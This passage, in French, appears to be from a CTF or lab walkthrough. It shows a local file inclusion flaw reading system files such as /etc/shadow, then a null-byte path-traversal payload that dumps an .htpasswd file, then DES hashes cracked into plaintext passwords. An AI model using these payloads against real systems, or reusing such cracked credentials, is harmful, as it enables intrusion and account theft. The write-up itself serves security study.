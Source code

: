 Ça me donne :  

```plain
Contenu trouve avec /var/log/lastlog
Contenu trouve avec /var/run/utmp
Contenu trouve avec /var/log/messages
Contenu trouve avec /var/log/messages.1
Contenu trouve avec /var/log/messages.2
Contenu trouve avec /etc/passwd
Contenu trouve avec /etc/shadow
Contenu trouve avec /etc/group
Contenu trouve avec /etc/hosts
Contenu trouve avec /etc/issue
Contenu trouve avec /etc/redhat-release
Contenu trouve avec /etc/crontab
Contenu trouve avec /etc/inittab
Contenu trouve avec /proc/version
Contenu trouve avec /proc/cmdline
Contenu trouve avec /proc/self/environ
Contenu trouve avec /etc/httpd/conf/httpd.conf
Contenu trouve avec /etc/ssh/sshd_config
Contenu trouve avec /etc/my.cnf
Contenu trouve avec /etc/php.ini
Contenu trouve avec /var/log/messages
Contenu trouve avec /var/log/dmesg
```

La lecture du fichier de configuration d'*Apache* me permet de connaître la racine web (*/var/www/html*).  

A partir de là plusieurs angles d'attaque sont possibles. J'ai choisi de m'orienter illico sur le dossier restricted.  

Via la faille include (*/index.html?page=../../../../../../var/www/html/restricted/.htaccess%00&title=Blog*) on obtient le *.htaccess* suivant :  

```plain
AuthType Basic
AuthName "Restricted - authentication required"
AuthUserFile /var/www/html/restricted/.htpasswd
Require valid-user
```

Et son *.htpasswd* :  

```plain
ghighland:8RkVRDjjkJhq6
pmoore:xHaymgB2KxbJU
jdurbin:DPdoXSwmSWpYo
sorzek:z/a8PtVaqxwWg
```

Ces hashs DES sont cassés très vite via dictionnaire et brute-force :  

```plain
ghighland:undone1:::::::
pmoore:Homesite:::::::
jdurbin:Sue1978:::::::
sorzek:pacman:::::::
```

